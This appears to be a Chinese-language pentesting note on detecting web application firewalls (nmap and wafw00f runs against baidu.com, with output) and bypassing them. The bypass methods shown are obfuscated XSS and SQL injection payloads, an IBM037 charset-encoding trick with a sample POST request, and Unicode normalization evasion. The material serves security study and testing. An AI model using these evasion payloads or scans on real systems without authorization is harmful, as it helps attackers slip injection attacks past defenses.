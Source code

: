 ## 0x01 WAF检测

**1.nmap脚本**
```
# 只能检测是否存在WAF
$ nmap -p443 --script=http-waf-detect www.baidu.com
Starting Nmap 7.93 ( https://nmap.org ) 
Nmap scan report for www.baidu.com (36.155.132.3)
Host is up (0.023s latency).
Other addresses for www.baidu.com (not scanned): 36.155.132.76 2409:8c20:6:1d55:0:ff:b09c:7d77 2409:8c20:6:1135:0:ff:b027:210c

PORT    STATE SERVICE
443/tcp open  https
| http-waf-detect: IDS/IPS/WAF detected:
|_www.baidu.com:443/?p4yl04d3=<script>alert(document.cookie)</script>

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

```

**2.Kali自带wafw00f**
```
# 有可能是baidu对waf响应标识进行隐藏导致未检测出具体的waf类型
$ waf00f https://www.baidu.com
[*] Checking https://www.baidu.com
[+] Generic Detection results:
[*] The site https://www.baidu.com seems to be behind a WAF or some sort of security solution
[~] Reason: The server header is different when an attack is detected.
The server header for a normal response is "BWS/1.1", while the server header a response to an attack is "Apache",
[~] Number of requests: 7
```
**2.whatwaf**
项目地址: https://github.com/Ekultek/WhatWaf
```
# 检测精度较高
$ whatwaf -u https://baidu.com
```
![whatwaf](./whatwaf.png)

## 0x02 WAF绕过方式

### 1. 绕过正则表达式WAF
常用方式:
* payload大小写
* payload编码
* payload替换函数或字符
* payload使用换行符或制表符
* 混淆

举例:
```
<ScRipt>alert(Hack)<sCrIpt> # 大小写
<script>alert`Hack`</script> # 替换字符
java%0ascript:alert(Hack) # 使用编码
<img/src='x'/onerror=alert(hack)> # 使用空格替代符 /
javascript:74163166147401571561541571411447514115414516216450615176 # 十进制编码
/?id=1+un/**/ion+sel/**/ect+1,2,3-- # 注释
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64编码
```

**更多参考资源**:
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [OWASP_XSS_Filter_Evasion_Cheat_Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)


### 2.绕过未检测字符集WAF
```
修改Content-Type的字符集为IBM037
科员python实现编码转换
import urllib.parse 
s = '<script>alert("xss")</script>'
urllib.parse.quote_plus(s.encode( "IBM037" ))
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n '

修改完成后上传

POST /comment/post HTTP/1.1
Host: chatapp
Content-Type: application/x-www-form-urlencoded; charset=ibm037
Content-Length: 74
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
```

### 3.Unicode兼容性绕过
![Unicode字符](./Unicode字符兼容性.png)

Unicode字符编码，将视觉上相近但不同的字符在不同标准夏分解为相同的抽象字符，通常有4种Unicode规范化算法:
* NFC：标准化形式规范组合
* NFD：规范化形式规范分解
* NFKC：标准化形式兼容性组合
* NFKD：规范化形式兼容性分解

参考: 
* https://www.unicode.org/reports/tr15/
* https://www.compart.com/en/unicode


通过构造兼容性的Unicode字符，经过NFKC/NFKD规范化可绕过WAF在后端进行等效执行,例如:
```
<img src=p onerror='prompt(1)'>可以被WAF检测到,使用 Unicode 兼容字符 ( <img src⁼p onerror⁼＇prompt⁽1⁾＇>) 构造的有效负载将检测不到
```
具体参考: https://jlajara.gitlab.io/Bypass_WAF_Unicode
